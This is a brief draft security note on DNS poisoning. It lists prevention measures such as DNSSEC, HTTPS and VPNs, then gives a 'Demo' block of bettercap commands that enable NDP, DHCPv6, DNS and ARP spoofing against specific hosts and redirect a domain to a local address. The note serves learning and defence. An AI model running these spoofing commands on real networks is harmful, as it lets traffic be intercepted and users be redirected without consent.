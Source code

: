 ```yaml
---
title: "DNS Poisoning - Draft"
weight: 700
date: 2024-06-15T01:47:46+07:00
---
```


# DNS Poisoning Attack

- A type of MitM attack


## Prevention

- Use Secure DNS: Configure DNS servers to use DNSSEC (Domain Name System Security Extensions), which adds cryptographic signatures to DNS records
- Enable HTTPS Everywhere: Even if DNS is poisoned, HTTPS with valid certificates will warn users when a site is untrusted
- Avoid Public Wi-Fi: Public networks are more susceptible to DNS poisoning attacks
- Set Trusted DNS Servers: Use reliable DNS resolvers like Google DNS (8.8.8.8) or Cloudflare (1.1.1.1)
- Monitor and Update Systems: Regularly patch DNS servers and network devices to address vulnerabilities
- Use a VPN: Encrypt traffic, bypassing rogue DNS responses on compromised networks

## Demo

```sh

set ndp.spoof.neighbour fe80::53a:d4db:13e9:b774
set ndp.spoof.targets 2001:ee0:4f51:2ed0:295c:1995:43bf:3e1b,2001:ee0:4f51:2ed0:c60d:3bd1:19b6:facb

2001:ee0:4f51:2ed0:ed4b:6d8:6bd0:b97f

set dns.spoof.domains mnptt.io.vn
set dns.spoof.address 192.168.1.17

set dhcp6.spoof.domains mnptt.io.vn

set arp.spoof.targets a4:34:d9:89:a0:58

ndp.spoof on
dhcp6.spoof on
dns.spoof on
arp.spoof on

```

## References

- Bettercap: [ndp.spoof (IPv6)](https://www.bettercap.org/modules/ethernet/spoofers/ndp.spoof/)
- Bettercap: [dhcp6.spoof](https://www.bettercap.org/modules/ethernet/spoofers/dhcp6.spoof/)
- Bettercap: [dns.spoof](https://www.bettercap.org/modules/ethernet/spoofers/dns.spoof/)
- Bettercap: [arp.spoof](https://www.bettercap.org/modules/ethernet/spoofers/arp.spoof/)